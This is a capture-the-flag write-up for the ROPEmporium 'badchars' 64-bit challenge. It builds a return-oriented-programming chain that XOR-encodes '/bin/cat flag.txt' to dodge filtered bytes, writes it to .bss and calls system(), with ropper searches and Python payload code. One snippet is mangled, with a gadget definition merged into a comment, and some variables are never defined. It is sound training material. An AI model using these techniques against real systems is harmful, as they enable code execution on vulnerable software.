 # badchars


## 32bit


## 64bit

Like always check the buffer we know it is 40bytes but its always good to be safe.

Running it we see some pretty bad news
```
badchars are: b i c / <space> f n s
```
Which eliminates `/bin` and other goodies from our input and any gadgets that happen to have the same bytes as the above chars

Converting them to hex so later we can give the bad bytes to `ropper` so it knows to avoid them
```
0x62, 0x69, 0x63, 0x2f, 0x20, 0x66, 0x6e, 0x73
```

### Avoiding Bad Chars


Luckily ROPEmporium was nice and left a hint in the symbol table of the ELF

![hint](imgs/64bit/usefulGadget.png)

If they weren't that nice we could have also found that gadget and other useful gadgets by using `ropper` which is covered in **Finding Gadgets** section below

So now that we know a nice XOR gadget to be used we need to XOR the badchars in `/bin/cat flag.txt` with a key.

In this instance the key is a single letter because the useful gadget:
```
xor byte ptr [r15], r14b; ret;
```
This XORs a single byte in r15 with the low/first byte of r14. Therefore the XOR key is just be a single char

Using [xor.py](xor.py) a quick and dirty script made to help find a key that didn't produce any badchars

The key doesn't have to be the same for all of them. I just did for convience.

And only XOR the bad chars and not the whole string or later the ROPchain will have too many operations

```
"/bin/cat flag.txt" XOR "D" = "k&-*k'atd"lag.txt"
```

Now that we have disguise our favorite string we can move on to creating the payload

### Creating the Payload

The payload is made of 3 parts
1) Loading the string to memory
2) Modifying the string in memory
3) Loading the string into the system call

#### Finding Gadgets

`ropper` is a super handy gadget finder that gef uses to locate ROP gadgets. It's general usage is as follows
- A 'gadget' in ROP terms is a string of asm operations followed by a ret call so it can be chained or returned into the next part of the ropchain
- `--search` uses a regex to find your query in the asm's opcodes ex: `--search "pop rdi"` will return gadgets that contain `pop rdi`
- `-b` is used to specify bad bytes, which is critical for this challenge

```
ropper --search $QUERY -b 6269632f20666e73 #-b is bad bytes and the number is all the bad bytes above just lumped together
```

### Loading the String

Searching by `mov qword` we get mov the value of r12 into the memory address stored in r13

```
ropper --search "mov qword" -b 6269632f20666e73

0x0000000000400b34: mov qword ptr [r13], r12; ret;
```

Now we need to load data into r12 and r13

Searching for `pop r12` we get:

```
ropper --search "pop r12" -b 6269632f20666e73

0x0000000000400b3b: pop r12; pop r13; ret;
```

Now that we can load our string into memory, we need to find somewhere to place the string into memory. We can find this by looking at the ELF's sections.

Using `rabin2` from radare2
```
rabin2 -S badchars
```
![data section](imgs/64bit/data.png)

Code Snip of it all together:
```
data_start = 0x601080 # pop_r12_r13 = p64(0x400b3b)
mov_r13_r12 = p64(0x400b34)
load_str_1 = pop_r12_r13 + bin_cat + p64(data_start) + mov_r13_r12
load_str_2 = pop_r12_r13 + flag_txt + p64(data_start+0x8) + mov_r13_r12
load_str_3 = pop_r12_r13 + last_bit + p64(data_start+0x10) + mov_r13_r12
load_str = load_str_1 + load_str_2 + load_str_3
```

I'm using .bss `0x601080` instead of .data `0x601070` because the third char for the string would have landed at `0x601073` which ends in a bad char `0x73` aka 's'

You could offset it by one and have the start be `0x601071` so then the third char is `0x601074` instead of `0x601073` it really doesn't matter.

But throught this whole challenge be aware of the bad chars and if something isn't working but it definately should then it's probably bad chars.

Test and get this part working before moving on.

![loaded string](imgs/64bit/loadedString.png)

### Modifing the String

Now that the string is loaded into memory we can modify it back to it's original state

We'll use that `usefulGadget` we found from before
```
xor byte ptr [r15], r14b; ret;
```

But we need to find a way to load data into r15 and r14
```
ropper --search "pop r14" -b 6269632f20666e73

0x0000000000400b40: pop r14; pop r15; ret;
```

Now we just need to make a ropchain with the previously used key to xor the string back to `/bin/cat flag.txt`

Code Snip of it all together:
```
key = "D".ljust(8,"\x00").encode() #left justfied so it becomes 8 bytes in length
pop_r14_r15 = p64(0x400b40)
xor_r15_r14b = p64(0x400b30)

# 'D' ^ '/'
xor_str_0 = pop_r14_r15 + key + p64(data_start) + xor_r15_r14b
# 'D' ^ 'b'
xor_str_1 = pop_r14_r15 + key + p64(data_start+0x1) + xor_r15_r14b
# 'D' ^ 'i'
xor_str_2 = pop_r14_r15 + key + p64(data_start+0x2) + xor_r15_r14b
# 'D' ^ 'n'
xor_str_3 = pop_r14_r15 + key + p64(data_start+0x3) + xor_r15_r14b
# 'D' ^ '/'
xor_str_4 = pop_r14_r15 + key + p64(data_start+0x4) + xor_r15_r14b
# 'D' ^ 'c'
xor_str_5 = pop_r14_r15 + key + p64(data_start+0x5) + xor_r15_r14b
xor_cat = xor_str_0 + xor_str_1 + xor_str_2 + xor_str_3 + xor_str_4 + xor_str_5

# 'D' ^ ' '
xor_str_8 = pop_r14_r15 + key + p64(data_start+0x8) + xor_r15_r14b
# 'D' ^ 'f'
xor_str_9 = pop_r14_r15 + key + p64(data_start+0x9) + xor_r15_r14b
xor_flag = xor_str_8 + xor_str_9

xor_str = xor_cat + xor_flag
```

Once again run and test this stage of the exploit before moving on. The less to debug is always better.

![modified string](imgs/64bit/modifiedString.png)


### System Call!

Now we get to feed the address of our string to the system call and get the flag!

Once again using ropper to locate a `pop rdi` since $rdi is the 1st arg in x86\_64 asm code.
```
ropper --search "pop rdi" -b 6269632f20666e73

0x0000000000400b39: pop rdi; ret;
```

And like alwasy there is a `usefulFunction`
```
gef> uf usefulFunction  or  disass usefulFunction
0x00000000004009e8 <+9>:     call   0x4006f0 <system@plt>
```

Code Snip of it all together:
```
system = p64(0x4009e8)
pop_rdi = p64(0x400b39)
system_call = pop_rdi + p64(data_start) + system

payload = load_str + xor_str + system_call
```

![ladies and gentlemen. We got him](imgs/64bit/loaded.png)
